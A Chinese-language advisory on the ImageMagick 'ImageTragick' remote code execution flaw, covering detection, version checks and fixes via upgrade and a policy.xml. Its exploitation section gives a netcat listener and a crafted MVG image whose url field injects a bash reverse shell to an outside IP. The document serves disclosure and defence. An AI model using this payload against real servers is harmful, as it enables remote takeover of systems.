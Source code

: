 ```yaml
---
description: 详细介绍ImageMagick的漏洞危害自测方法、利用方式EXP和修复方案。
---
```


# ImageMagick安全详解

Feei <feei#feei.cn>

## 漏洞危害 
ImageMagick是用来处理图片的通用组件，涉及众多语言与平台。 

- PHP(imagick/MagickWand) 
- Python(PythonMagick) 
- Java(JMagick) 
- Nodejs(imagemagick) 
- Ada(G2F) 
- C(MagickCore/MagickWand) 
- Ch(ChMagick) 
- C++(Magick++) 
- Lisp(L-Magick) 
- Neko/haXe(nMagick) 
- Pascal(PascalMagick) 
- Perl(PerlMagick) 
- Ruby(RMagick) 
- Tcl/TK(TclMagick) 

此次漏洞导致的直接危害为**远程代码执行（RCE）** 也就是说，如果你的业务中有用到ImageMagick处理图片，则攻击者只需要上传一个特殊构造的图片即可拿到你服务器的权限。 

## 检查是否有使用

一般ImageMagick用在处理图片的裁剪、压缩以及水印等地方。如果你网站有上传图片的地方，就极有可能用到了。

可以通过关键字搜索： 

PHP代码关键字：```Imagick``` 
Java代码关键字：```MagickImage``` 

## 检测方式 

#### 1. 通过版本号确认是否存在 

**6.9.3-9**之前的版本都存在该漏洞(**6.9.3-9**版本不完全修复该漏洞)，建议升级至最新的**2016-05-09 7.0.1-3**。 
```bash 
$ convert --version 
Version: ImageMagick 6.8.3-7 2013-07-30 Q16 http://www.imagemagick.org 
Copyright: Copyright (C) 1999-2013 ImageMagick Studio LLC 
Features: DPC OpenMP Delegates: bzlib fontconfig freetype gslib jng jpeg pango png ps tiff x xml zlib 
```

#### 2. 检测脚本 

```bash 
$ git clone https://github.com/ImageTragick/PoCs.git 
$ cd PoCs 
$ ./test.sh 
``` 

## 利用方式 

在自己服务器（此处演示为103.21.140.84）上开启监听端口7890 

```bash 
$ nc -vvl 7890 
```

将以下保存为test.jpg，上传到对应图片处理处。 

```bash
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/103.21.140.84/7890 0>&1")' 
pop graphic-context 
```

在自己服务器（此处演示为103.21.140.84）上查看是否有反弹SHELL 

## 修复方式 

**升级ImageMagick至最新的[2016-05-09 7.0.1-3](http://www.imagemagick.org/script/binary-releases.php)版本。** 

如果无法快速升级，先临时做好以下两点： 
1. 处理图片前，先检查图片的magic bytes，也就是图片头，如果图片头不是你想要的格式，那么就不调用ImageMagick处理图片。如果你是php用户，可以使用getimagesize函数来检查图片格式，而如果你是wordpress等web应用的使用者，可以暂时卸载ImageMagick，使用php自带的gd库来处理图片。 

2. 使用policy file来防御这个漏洞，这个文件默认位置在 /etc/ImageMagick/policy.xml ，我们通过配置如下的xml来禁止解析https等敏感操作： 
```xml 
<policymap>  
  <policy domain="coder" rights="none" pattern="EPHEMERAL" />
  <policy domain="coder" rights="none" pattern="URL" />
  <policy domain="coder" rights="none" pattern="HTTPS" />
  <policy domain="coder" rights="none" pattern="MVG" />
  <policy domain="coder" rights="none" pattern="MSL" />
  <policy domain="coder" rights="none" pattern="TEXT" />
  <policy domain="coder" rights="none" pattern="SHOW" />
  <policy domain="coder" rights="none" pattern="WIN" />
  <policy domain="coder" rights="none" pattern="PLT" />
</policymap>
``` 

### 参考 
- [ImageMagick Changelog](http://www.imagemagick.org/script/changelog.php) 
- [ImageTragick](https://imagetragick.com/)
- [PHP Imagick](http://pecl.php.net/package/imagick)
